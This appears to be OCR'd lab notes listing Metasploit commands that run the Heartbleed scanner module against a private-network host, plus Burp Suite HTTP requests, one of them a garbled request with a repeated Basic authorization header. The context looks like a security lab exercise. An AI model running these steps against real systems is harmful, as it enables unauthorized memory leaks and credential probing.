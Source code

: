 Commands used:

msfconsole 

use auxiliary/scanner/ssl/openssl_heartbleed

set RHOSTS 192.168.253.142

exploit


Burpsuite Input:

GET / HTTP/1.1 
Host: 192.168.56.113 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: close 
Upgrade-Insecure-Requests: 1

/fakepost.html HTTP/1.1 
TE: deflate,gzip;q=0.3 
Connection: TE, close 
Accept-Encoding: gzip 
Authorization: Basic cGFzczEyMw== 
Authorization: Basic cGFzczEyMw== 
Authorization: Basic cGFzczEyMw== 
Authorization: Basic cGFzczEyMw== 
Host: 192.168.56.106
Referer: http://fakesite.org 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:49.0) Gecko/20200101 Firefox/49.0